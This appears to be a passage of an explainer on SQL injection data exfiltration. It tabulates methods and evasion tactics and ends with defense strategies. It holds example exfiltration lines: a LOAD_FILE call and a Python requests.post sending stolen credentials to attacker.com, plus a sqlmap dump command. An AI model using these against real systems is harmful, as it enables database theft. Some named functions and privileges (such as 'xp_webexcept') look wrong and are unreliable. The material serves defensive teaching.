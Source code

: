 | **Method**          | **Mechanism**                                                                 | **Example**                                                                 |  
|----------------------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------|  
| DNS Tunneling        | Leverages DNS queries to exfiltrate data                                    | `SELECT LOAD_FILE(CONCAT('\\attacker.com\\', stolen_data))`                  |  
| HTTP Callbacks       | Uses network protocols to send data to external servers                     | `xp_dirtree` or `BULK INSERT`                                               |  
| Time-Based Encoding  | Encodes data as delays (e.g., `SLEEP()`)                                    | `IF(condition, SLEEP(5), 0)`                                                |  

---

### **3. Advanced Evasion Tactics**  
Attackers use these techniques to avoid detection:  

| **Tactic**          | **Description**                                                                 | **Example**                                                                 |  
|----------------------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------|  
| **Chunking**         | Splits large datasets into smaller transfers                                 | Exfiltrates 100 records at a time instead of 10,000                          |  
| **Encryption**       | Encodes data (e.g., Base64) to evade signature-based detection               | `SELECT ENCODE(data, 'base64')`                                             |  
| **Protocol Mimicry** | Masquerades data transfers as legitimate traffic (e.g., HTTPS)               | Uses `xp_webexcept` to send data via HTTPS                                   |  

---

### **4. Tool Automation**  
#### **SQLMap**  
Automates data extraction with commands like:  
```bash  
sqlmap -u "http://target.com/search" --dump --batch  
```  
#### **Custom Scripts**  
Python scripts can encode and send data:  
```python  
import requests  
stolen_data = "username:admin,password:1234"  
requests.post('https://attacker.com/receive', data={'data': stolen_data})  
```  

---

### **5. Defense Strategies**  
| **Category**         | **Mitigation**                                                                 | **Implementation**                                                         |  
|----------------------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------|  
| **Preventive**       | Parameterized queries                                                        | Use prepared statements (e.g., `PreparedStatement` in Java)                  |  
|                      | Disable file-write permissions                                               | Remove `FILE_WRITE` privileges in MySQL                                     |  
| **Detection**        | Monitor for suspicious commands                                               | Log `INTO OUTFILE`, `xp_dirtree`, or frequent `SLEEP()` calls               |  
| **Network Controls** | Block outbound database connections to untrusted IPs                         | Firewall rules to restrict database server traffic to known destinations     |  
|                      | IDS/IPS rules for DNS/HTTP anomalies                                          | Detect DNS queries with unexpected subdomains or unusual HTTP payloads      |  

---
